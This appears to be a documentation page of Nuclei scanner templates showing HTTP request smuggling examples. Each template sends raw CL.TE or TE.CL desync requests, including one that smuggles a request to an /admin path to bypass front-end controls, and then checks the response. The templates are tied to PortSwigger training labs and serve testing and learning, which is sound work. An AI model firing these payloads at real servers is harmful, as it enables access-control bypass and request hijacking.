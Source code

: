 ```yaml
---
title: "HTTP Smuggling Examples"
description: "Review some HTTP smuggling examples"
---
```


## Basic CL.TE

This template makes a defined malformed HTTP POST requests using rawhttp library and checking for string match against response.

```yaml
id: CL-TE-http-smuggling

info:
  name: HTTP request smuggling, basic CL.TE vulnerability
  author: pdteam
  severity: info
  reference: https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te

http:
  - raw:
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Connection: keep-alive
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 6
      Transfer-Encoding: chunked
      
      0
      
      G
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Connection: keep-alive
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 6
      Transfer-Encoding: chunked
      
      0
      
      G
      
    unsafe: true
    matchers:
      - type: dsl
        dsl:
          - 'contains(body, "Unrecognized method GPOST")'
```

## Basic TE.CL

This template makes a defined malformed HTTP POST requests using rawhttp library and checking for string match against response.


```yaml
id: TE-CL-http-smuggling

info:
  name: HTTP request smuggling, basic TE.CL vulnerability
  author: pdteam
  severity: info
  reference: https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl

http:
  - raw:
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/x-www-form-urlencoded
      Content-length: 4
      Transfer-Encoding: chunked
      
      5c
      GPOST / HTTP/1.1
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 15
      
      x=1
      0
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/x-www-form-urlencoded
      Content-length: 4
      Transfer-Encoding: chunked
      
      5c
      GPOST / HTTP/1.1
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 15
      
      x=1
      0
      
    unsafe: true
    matchers:
      - type: dsl
        dsl:
          - 'contains(body, "Unrecognized method GPOST")'
```

## Frontend bypass CL.TE

This template makes a defined malformed HTTP POST requests using rawhttp library and checking for string match against response.


```yaml
id: smuggling-bypass-front-end-controls-cl-te

info:
  name: HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability
  author: pdteam
  severity: info
  reference: https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-cl-te

http:
  - raw:
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 116
      Transfer-Encoding: chunked
      
      0
      
      GET /admin HTTP/1.1
      Host: localhost
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 10
      
      x=
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 116
      Transfer-Encoding: chunked
      
      0
      
      GET /admin HTTP/1.1
      Host: localhost
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 10
      
      x=
      
    unsafe: true
    matchers:
      - type: dsl
        dsl:
          - 'contains(body, "/admin/delete?username=carlos")'
```

## Differential responses based CL.TE

This template makes a defined malformed HTTP POST requests using rawhttp library and checking for string match against response.


```yaml
id: confirming-cl-te-via-differential-responses-http-smuggling

info:
  name: HTTP request smuggling, confirming a CL.TE vulnerability via differential responses
  author: pdteam
  severity: info
  reference: https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-cl-te-via-differential-responses

http:
  - raw:
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 35
      Transfer-Encoding: chunked
      
      0
      
      GET /404 HTTP/1.1
      X-Ignore: X
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 35
      Transfer-Encoding: chunked
      
      0
      
      GET /404 HTTP/1.1
      X-Ignore: X
      
    unsafe: true
    matchers:
      - type: dsl
        dsl:
          - 'status_code==404'
```

## Differential responses based TE.CL

This template makes a defined malformed HTTP POST requests using rawhttp library and checking for string match against response.


```yaml
id: confirming-te-cl-via-differential-responses-http-smuggling

info:
  name: HTTP request smuggling, confirming a TE.CL vulnerability via differential responses
  author: pdteam
  severity: info
  reference: https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-te-cl-via-differential-responses

http:
  - raw:
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/x-www-form-urlencoded
      Content-length: 4
      Transfer-Encoding: chunked
      
      5e
      POST /404 HTTP/1.1
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 15
      
      x=1
      0
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/x-www-form-urlencoded
      Content-length: 4
      Transfer-Encoding: chunked
      
      5e
      POST /404 HTTP/1.1
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 15
      
      x=1
      0
      
    unsafe: true
    matchers:
      - type: dsl
        dsl:
          - 'status_code==404'
```